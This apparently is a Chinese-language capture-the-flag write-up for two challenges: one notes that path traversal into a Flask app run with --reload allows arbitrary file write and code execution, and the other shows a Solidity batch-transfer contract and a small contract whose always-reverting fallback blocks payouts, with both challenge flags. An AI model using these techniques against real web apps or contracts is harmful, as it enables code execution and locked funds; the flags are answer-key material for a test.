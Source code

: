 ## 禁止内卷

> 提示：助教部署的时候偷懒了，直接用了 flask run（当然了，助教也读过 Flask 的文档，所以 DEBUG 是关了的）。而且有的时候助教想改改代码，又懒得手动重启，所以还开了 --reload。启动的完整命令为 flask run --reload --host 0。网站代码运行在 /tmp/web。

路径穿越任意文件写入，给flask加个路由就可以直接rce了。

`flag{uno!!!!_esrever_now_U_run_MY_c0de51edd381aa}`


## 链上转账助手

检查程序自动化调用 `batchTransfer()` 的交易失败，就给flag
看起来是在模拟某个曾经发生过的，大家的钱都被锁住出不来的事故。

### 转账失败 

程序：
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract BatchTransfer {
    function batchTransfer(address payable[] calldata recipients, uint256[] calldata amounts) external payable {
        require(recipients.length == amounts.length, "Recipients and amounts length mismatch");

        uint256 totalAmount = 0;
        uint256 i;

        for (i = 0; i < amounts.length; i++) {
            totalAmount += amounts[i];
        }

        require(totalAmount == msg.value, "Incorrect total amount");

        for (i = 0; i < recipients.length; i++) {
            recipients[i].transfer(amounts[i]);
        }
    }
}
```

很简单，revert()就好了。

```solidity
contract Owner {
    fallback() external payable { 
        revert();
    }
} 
```

`flag{Tr4nsf3r_T0_c0nTracT_MaY_R3v3rt_1c625de399}`


  [1]: ./assets//4046521366.webp
  [2]: ./assets//281655009.webp
  [3]: ./assets//4046521366.webp
  [4]: ./assets//1500912061.webp
  [5]: ./assets//3096051582.webp
  [6]: ./assets//557543131.webp